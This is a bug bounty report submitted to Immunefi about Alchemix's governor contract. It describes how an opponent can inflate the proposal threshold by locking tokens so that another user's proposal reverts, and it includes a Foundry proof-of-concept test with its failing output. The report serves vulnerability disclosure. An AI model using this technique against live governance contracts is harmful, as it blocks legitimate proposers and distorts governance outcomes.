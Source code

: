 # 30685 - \[SC - Medium] The proposer can be impeded from submitting a p...

Submitted on May 4th 2024 at 13:33:54 UTC by @OxG0P1 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30685

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/AlchemixGovernor.sol

Impacts:

* Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description

## Brief/Intro

The `propose` function verifies the minimum votes required for a valid proposal by checking if the number of votes obtained by `_msgSender()` within the last block timestamp is greater than or equal to the current `proposalThreshold()` value. However, it is susceptible to exploitation by an attacker who can manipulate and inflate the `proposalThreshold()` value, thereby preventing any user from successfully proposing a valid proposal.

## Vulnerability Details

In the `propose` function, there exists a verification mechanism ensuring that the `msg.sender` possesses adequate quorum votes to initiate a proposal, denoted by the condition `getVotes(_msgSender(), block.timestamp - 1) >= proposalThreshold()`. Here, the `getVotes()` function retrieves the number of votes at `block.timestamp - 1`, while the `proposalThreshold()` is calculated as follows: `(token.getPastTotalSupply(block.timestamp) * proposalNumerator) / PROPOSAL_DENOMINATOR`. Notably, `getPastTotalSupply()` fetches the `totalSupply` at the specified `block.timestamp`.

Consider the following hypothetical scenario:

1. Bob intends to propose a proposal.
2. At timestamp `x`, Bob garners 110 votes.
3. At timestamp `x + 1`, the actual `proposalThreshold` is set at 100 votes.
4. However, Alice opposes Bob's proposal.
5. Alice manipulates the `proposalThreshold` by either locking or depositing assets into an already locked position, thereby ensuring that `getVotes(bob, x) < proposalThreshold()`. Consequently, Bob's proposal transaction fails, leading to a revert.

This scenario underscores a vulnerability where an adversary, in this case, Alice, exploits the system by artificially inflating the `proposalThreshold`, effectively obstructing legitimate proposals such as Bob's from succeeding.

## Impact Details

Opposing an user from proposing by manipulating the `totalSupply`

## References

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/AlchemixGovernor.sol#L45-L47 https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/governance/L2Governor.sol#L309-L312

## Proof of Concept

`Test :`

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.15;

import "./BaseTest.sol";
import "forge-std/console.sol";

contract AlchemixGovernorTest is BaseTest {
    uint256 tokenId1;
    uint256 tokenId2;
    uint256 tokenId3;

    function setUp() public {
        setupContracts(block.timestamp);

        
        tokenId1 = createVeAlcx(admin, TOKEN_100K / 4, MAXTIME, false); //Assign Admin with some voting power at block.timestamp

    

        
        hevm.warp(block.timestamp + 1); // Timestamp increment

        assertEq(governor.timelock(), address(timelockExecutor));
    }

    function craftTestProposal()
        internal
        view
        returns (address[] memory targets, uint256[] memory values, bytes[] memory calldatas, string memory description)
    {
        targets = new address[](1);
        targets[0] = address(voter);
        values = new uint256[](1);
        values[0] = 0;
        calldatas = new bytes[](1);
        calldatas[0] = abi.encodeWithSelector(voter.whitelist.selector, usdc);
        description = "Whitelist USDC";
    }




    function testPropose() public {
        address beef2 = address(6);
        address beef3 = address(7);
        address beef4 = address(8);
        address beef5 = address(9);
        address beef6 = address(10);
        address beef7 = address(11);
        createVeAlcx(beef, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef2, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef3, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false); //Locking tokens so that the threshold increses

        ThreshHold = governor.proposalThreshold();
        console.log("TOTAL AT THIS2", ThreshHold);
        hevm.startPrank(admin);

        uint256 adminVotes = governor.getVotes(admin, block.timestamp - 1);
        uint256 pastVotes = veALCX.getPastVotes(admin, block.timestamp - 1);
        console.log("ADMIN VOTES", adminVotes);
        console.log("PAST VOTES", pastVotes);
        assertEq(adminVotes, pastVotes, "governor and veALCX calculated different votes");

        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();
        governor.propose(t, v, c, d, MAINNET); //Admin proposing 

        hevm.stopPrank();
    }
}
```

`Result :`

```solidity
Ran 2 tests for src/test/AlchemixGovernor.t.sol:AlchemixGovernorTest
[FAIL. Reason: revert: Governor: veALCX power below proposal threshold] testPropose() (gas: 7860929)
[PASS] testProposeFail() (gas: 1750584)
Suite result: FAILED. 1 passed; 1 failed; 0 skipped; finished in 103.69s (14.80s CPU time)

Ran 1 test suite in 105.70s (103.69s CPU time): 1 tests passed, 1 failed, 0 skipped (2 total tests)

Failing tests:
Encountered 1 failing test in src/test/AlchemixGovernor.t.sol:AlchemixGovernorTest
[FAIL. Reason: revert: Governor: veALCX power below proposal threshold] testPropose() (gas: 7860929)
```
